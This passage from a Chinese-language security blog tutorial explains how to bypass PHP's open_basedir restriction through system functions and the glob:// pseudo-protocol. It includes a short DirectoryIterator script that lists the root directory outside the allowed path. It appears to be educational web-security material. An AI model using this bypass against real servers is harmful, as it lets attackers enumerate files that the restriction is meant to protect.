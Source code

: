 # 通过系统命令执行绕过
但是open_basedir对系统函数并没有做相关的限制，我们用系统函数可以绕过。
![](/blog_img/open_basedir_4.png)

# 利用glob://绕过
## glob://伪协议
glob://协议是php5.3.0以后一种查找匹配的文件路径模式。  
官方给出了一个示例用法  
```php
<?php
// 循环 ext/spl/examples/ 目录里所有 *.php 文件
// 并打印文件名和文件尺寸
$it = new DirectoryIterator("glob://ext/spl/examples/*.php");
foreach($it as $f) {
    printf("%s: %.1FK\n", $f->getFilename(), $f->getSize()/1024);
}
?
```
glob://伪协议需要结合其他函数方法才能列目录，单纯传参glob://是没办法列目录的。
## DirectoryIterator+glob://
DirectoryIterator是php5中增加的一个类，为用户提供一个简单的查看目录的接口，利用此方法可以绕过open_basedir限制。(但是似乎只能用于Linux下)  
脚本差不多如下:
```php
<?php
$a = new DirectoryIterator("glob:///*");
foreach($a as $f){
    echo($f->__toString().'<br>');
}
?>
```
可以看到,成功列出目录: